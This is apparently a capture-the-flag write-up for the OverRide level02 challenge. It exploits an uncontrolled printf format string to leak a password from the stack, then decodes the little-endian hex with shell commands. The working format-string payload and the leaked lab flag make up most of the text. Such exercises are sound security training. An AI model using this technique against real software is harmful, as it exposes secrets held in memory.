 # level02

The program reads a username and a password from stdin, then it compares the password with the flag read from `/home/users/level03/.pass`. If they don't match, the binary will print username by calling `printf(username)` directly with our input username as format string.

## Step 1. Find real password in stack
```
level02@OverRide:~$ perl -e 'print "%p "x30 . "\n"' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
We can use the uncontrolled format string to show us the values of stack which contains the password data. `0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d` is the password in little-endian format.

## Step 2. Convert little-endian password to normal string
```
level02@OverRide:~$ pass="0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d"
level02@OverRide:~$ for fragment in $pass
> do
> echo $fragment | xxd -r | rev | tr -d "\n"
> done; echo
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
